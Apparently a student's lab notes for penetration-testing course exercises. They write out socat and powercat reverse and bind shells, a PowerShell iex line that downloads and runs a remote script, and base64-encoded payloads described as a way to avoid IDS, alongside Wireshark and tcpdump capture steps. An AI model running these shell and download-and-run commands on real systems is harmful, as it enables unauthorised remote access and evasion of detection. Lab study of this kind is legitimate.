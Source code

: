 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[Pasted image 20220218121253.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[Pasted image 20220218122213.png]]
# !!SKIPPED QUESTIONS RETURN HERE!!
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
use previously generated .pem
start socat listener
`socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0 STDOUT`
target windows machine do a callback using socat
`socat OPENSSL:192.168.119.218:443,verify=0 EXEC:/bin/bash`

4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?


# 4.3.9 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **PowerShell** and **powercat** to create a reverse shell from your Windows system to your Kali machine.
run dot-sourcing script
`. .\powercat.ps1`
or use iex cmdlet
`iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`
start listener on local machine
`nc -lnvp 9999`
use powershell on remote machine to connect to listener
`powercat -c <IP> -p <PORT> -e cmd.exe`
![[Pasted image 20220218171345.png]]
![[Pasted image 20220218171401.png]]
2.  Use **PowerShell** and **powercat** to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use **powercat** to connect to it locally?
create bind shell in powershell with powercat
`powercat -l -p 443 -e cmd.exe`
connect with nc on local machine
`nc -nv <IP> <PORT>`
to connect locally using powercat simply run powercat with -c flag in seperate terminal
`powercat -c 127.0.0.1 -p <PORT> `

3.  Use **powercat** to generate an encoded payload and then have it executed through **powershell**. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.
generate powercat payload
`powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1`
or encade in base64 to avoid IDS
`powercat -c <IP> -p <PORT> -e cmd.exe -ge > encoded_reverseshell.ps1`
start listener on local machine
`nc -lnvp <PORT>`
start reverse shell by running .ps1 file
`.\reversehell.ps1`
or if encoded, running posershell.exe with -E flag and encoded payload
`powershell.exe -E <ENCODED_PAYLOAD_HERE>`
###### easy copy/paste in powershell
`Get-Content C:\Users\user1\.ssh\id_ed25519.pub | Set-Clipboard`
![[Pasted image 20220218173555.png]]
![[Pasted image 20220218173813.png]]

# exercises 4.4.6
#### Exercises

_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use Wireshark to capture network activity while attempting to connect to 10.11.1.217 on port 110 using Netcat, and then attempt to log into it.
setup filter to only capture traffic on port 110
connect to pop server via nc
`nc -nv <IP> 110`
attempt to log into pop server 
`USER student`
`PASS lab`
![[Pasted image 20220218183021.png]]
2.  Read and understand the output. Where is the three-way handshake happening? Where is the connection closed?
Frame 1, 2, and 3 contain the three-way handshake
![[Pasted image 20220218183223.png]]
frame 13 contains RST, ack which is used to reset/shutdown a connection
![[Pasted image 20220218183755.png]]

3.  Follow the TCP stream to read the login attempt.
![[Pasted image 20220218183815.png]]

4.  Use the display filter to only monitor traffic on port 110.
this can be done one the startup page via the capture filter
![[Pasted image 20220218183859.png]]
or with the display filter once the capture has begun
![[Pasted image 20220218184037.png]]

5.  Run a new session, this time using the capture filter to only collect traffic on port 110.
see above section for capture filtering

# exercises 4.5.3
_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use tcpdump to recreate the Wireshark exercise of capturing traffic on port 110.
`sudo tcpdump -i tun0 port 110`
or save to pcap file
`sudo tcpdump -i tun0 port 110 -w sample.pcap`

2.  Use the -X flag to view the content of the packet. If data is truncated, investigate how the -s flag might help.
view contents of .pcap
`sudo tcpdump -nX -r sample.pcap `

truncated packets - from the tcpdump manpage, usage of -s flag:
"Packets truncated because of a limited snapshot are indicated in the output with '''{proto}'', where proto is the name of the protocol level at which the truncation has occurred"
`sudo tcpdump -nX -s 0 -r sample.pcap`

3.  Find all 'SYN', 'ACK', and 'RST' packets in the password_cracking_filtered.pcap file.


4.  An alternative syntax is available in tcpdump where you can use a more user-friendly filter to display only ACK and PSH packets. Explore this syntax in the tcpdump manual by searching for "tcpflags". Come up with an equivalent display filter using this syntax to filter ACK and PSH packets.